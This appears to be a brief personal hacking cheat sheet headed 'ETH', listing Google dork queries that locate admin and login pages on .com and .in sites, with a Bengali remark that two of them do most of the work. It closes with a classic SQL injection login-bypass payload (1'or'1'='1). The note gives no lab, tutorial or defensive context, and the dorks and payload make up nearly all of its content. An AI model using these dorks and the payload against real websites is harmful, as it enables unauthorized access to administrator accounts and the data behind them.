 # ETH

## Dork:
ei duita te beshi kaj hobe.
- inurl: admin/login.php site:.com
- inurl: admin/login.php site:.in
- inurl: admin/login.php
- inurl: admin/index.php
- inurl: admin
- inurl: login.php
- inurl: login.php site:.in
  - 1'or'1'='1
